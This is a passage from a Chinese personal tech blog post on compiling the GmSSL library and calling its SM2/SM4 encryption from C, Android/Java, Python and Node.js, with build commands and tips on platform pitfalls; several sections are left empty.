<p>有兴趣的同学可以详细去学习下，openssl有着大量的API可以使用，可以实现大量的密码算法。</p>
<h2 id="开源算法（gmsll-org）"><a href="#开源算法（gmsll-org）" class="headerlink" title="开源算法（gmsll.org）"></a>开源算法（gmsll.org）</h2><p>这里我使用的是北京大学<a href="https://github.com/guanzhi" target="_blank" rel="noopener">关志</a>副研究员的密码学研究组开发维护的<a href="http://gmssl.org/" target="_blank" rel="noopener">GmSSL</a>,此项目上openssl的分支，可以替代openssl，并增加了对国密的支持.</p>
<p>在网上找了很多关于此开源库的使用方法，都不是很明白，我对这个项目的使用方法做一个总结，可以支持在多个平台上使用。</p>
<h2 id="下面我们来看看具体的使用方法"><a href="#下面我们来看看具体的使用方法" class="headerlink" title="下面我们来看看具体的使用方法"></a>下面我们来看看具体的使用方法</h2><p>示例代码可以在<a href="">github</a>上面可以下载得到，给出了测试代码，可以直接进行下载调试，主要实现的是<strong>sm2的加解密</strong>，<strong>sm4的加解密</strong>，欢迎star。<br>使用方法都是：</p>
<ol>
<li>编译GmSSL库，得到对应的文件。</li>
<li>引用文件。</li>
<li>使用对应语言调用。</li>
</ol>
<p>编译环境为（macbook + ubuntu虚拟机）</p>
<h3 id="evp-api"><a href="#evp-api" class="headerlink" title="evp api"></a>evp api</h3><h4 id="介绍"><a href="#介绍" class="headerlink" title="介绍"></a>介绍</h4><p>首先是 <strong>EVP API</strong>，这是对GmSSL接口的一个封装，隐藏了API实现的细节，提供了一个抽象的，统一的接口。我们可以借助这个接口来实现其他平台的使用。</p>
<h4 id="编译"><a href="#编译" class="headerlink" title="编译"></a>编译</h4><p>我在Ubuntu环境下面<br><code>./config</code><br><code>make</code><br>make成功后，生成 libcrypto.so.1.1 和 libssl.so.1.1<br>在code文件夹下面，编写自己的sm4.c,utils.c,sm2.c<br>然后利用下面的代码进行编译。<br><code>gcc -Wall code/sm4.c code/sm2.c code/utils.c -o my_gmssl -lssl -lcrypto -L. -I include -I apps -I . -L /usr/lib/ssl</code></p>
<h4 id="测试"><a href="#测试" class="headerlink" title="测试"></a>测试</h4><p>编写测试代码：<br></p>
<p>运行结果：<br><br>测试成功。</p>
<h3 id="java-API的使用方法（Android）"><a href="#java-API的使用方法（Android）" class="headerlink" title="java API的使用方法（Android）"></a>java API的使用方法（Android）</h3><h4 id="介绍-1"><a href="#介绍-1" class="headerlink" title="介绍"></a>介绍</h4><p>在Android里面调用这个库的方法，主要是通过编译.so动态链接库的方式进行引用。在官方的<a href="https://github.com/guanzhi/GmSSL/blob/master/java/" target="_blank" rel="noopener">github</a>中，已经给出了相关代码，但是缺少了ndk编译过程。</p>
<h4 id="编译-1"><a href="#编译-1" class="headerlink" title="编译"></a>编译</h4><h4 id="坑"><a href="#坑" class="headerlink" title="坑"></a>坑</h4><p>有些手机里面并不支持，.so.1.1的soname，所以在引用libssl.so.1.1 和libcrypto.so.1.1的时候出现了问题，解决方法是<br><figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">readelf -d libssl.so</span><br><span class="line">rpl -R -e .so.1.1 &quot;_1_1.so&quot; libcrypto.so</span><br><span class="line">rpl -R -e .so.1.1 &quot;_1_1.so&quot; libssl.so</span><br></pre></td></tr></table></figure></p>
<h3 id="python-调用方法"><a href="#python-调用方法" class="headerlink" title="python 调用方法"></a>python 调用方法</h3><h4 id="坑-1"><a href="#坑-1" class="headerlink" title="坑"></a>坑</h4><p>当使用memcpy或者strcpy进行复制结果字符串时，在c语言里面运行正常，但是引入到python里面的时候会出现多一位或几位字符的情况，所以输出结果转换成了16进制字符串，这样结果就稳定了。</p>
<h3 id="ios使用方法"><a href="#ios使用方法" class="headerlink" title="ios使用方法"></a>ios使用方法</h3><h3 id="nodejs使用方法"><a href="#nodejs使用方法" class="headerlink" title="nodejs使用方法"></a>nodejs使用方法</h3><h4 id="坑-2"><a href="#坑-2" class="headerlink" title="坑"></a>坑</h4><p>c++ 编译bug，sm2 bug</p>
<h2 id="小结"><a href="#小结" class="headerlink" title="小结"></a>小结</h2>
      
    </div>
    <footer class="article-footer">
      <a data-url="https://i9n0re.github.io/2018/11/06/关于国密-（sm2-sm3-sm4）在Linux、python、Android、java、ios中的应用/" data-id="cjq1zh9450001lqxccg4kvilk" class="article-share-link">Share</a>
      
      
    </footer>
  </div>
  
</article>


  


</section>
        
          <aside id="sidebar">
  
    

  
    

  
    
  
    
  <div class="widget-wrap">
    <h3 class="widget-title">Archives</h3>
    <div class="widget">
      <ul class="archive-list"><li class="archive-list-item"><a class="archive-list-link" href="/archives/2018/12/">December 2018</a></li><li class="archive-list-item"><a class="archive-list-link" href="/archives/2018/11/">November 2018</a></li></ul>
    </div>
  </div>


  
    
  <div class="widget-wrap">
    <h3 class="widget-title">Recent Posts</h3>
    <div class="widget">
      <ul>
        
          <li>
            <a href="/2018/12/22/wordpress-contact-form-7-v5-0-3-插件-权限提升、任意文件读取漏洞分析/">wordpress contact_form_7_v5.0.3 插件 权限提升、任意文件读取漏洞分析</a>
          </li>
        
          <li>
            <a href="/2018/11/06/easy-x86-exploit/">easy x86 exploit</a>
          </li>
        
          <li>
            <a href="/2018/11/06/关于国密-（sm2-sm3-sm4）在Linux、python、Android、java、ios中的应用/">关于国密 （sm2,sm3,sm4）在Linux、python、Android、java、ios中的应用</a>
          </li>
        
      </ul>
    </div>
  </div>

  
</aside>
        
      </div>
      <footer id="footer">
  
  <div class="outer">
    <div id="footer-info" class="inner">
      &copy; 2018 i9n0re<br>
      Powered by <a href="http://hexo.io/" target="_blank">Hexo</a>
    </div>
  </div>
</footer>
    </div>
    <nav id="mobile-nav">
  
    <a href="/" class="mobile-nav-link">Home</a>
  
    <a href="/archives" class="mobile-nav-link">Archives</a>
  
</nav>
    

<script src="//ajax.googleapis.com/ajax/libs/jquery/2.0.3/jquery.min.js"></script>


  <link rel="stylesheet" href="/fancybox/jquery.fancybox.css">
  <script src="/fancybox/jquery.fancybox.pack.js"></script>


<script src="/js/script.js"></script>


  </div>
</body>
</html>